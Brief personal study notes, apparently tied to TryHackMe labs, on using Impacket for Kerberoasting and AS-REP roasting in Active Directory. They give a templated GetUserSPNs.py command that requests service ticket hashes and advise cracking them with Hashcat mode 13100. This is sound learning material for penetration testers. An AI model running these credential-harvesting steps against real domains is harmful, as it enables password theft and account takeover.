 # Using Impacket

## Kerberoasting

Impacket can identify kerberoastable accounts and dump packets remotely. It comes standard with Kali Linux.

```bash
python3 \
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
${DOMAIN}/${USER}:${PASSWORD} \
-dc-ip $DOMAIN_CONTROLLER_IP -request
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

## AS-REP Roasting

Impacket (via GetNPUsers.py) support AS-REP roasting. However, GetNPUsers.py requires that user accounts already be enumerated and roastable accounts identified.

When using GetNPUsers.py, specify the target as `${DOMAIN}/` (i.e., leave off the user-part).

## References

* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Attacktive Directory](tryhackme-attacktive-directory.md)
* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> December 6, 2021
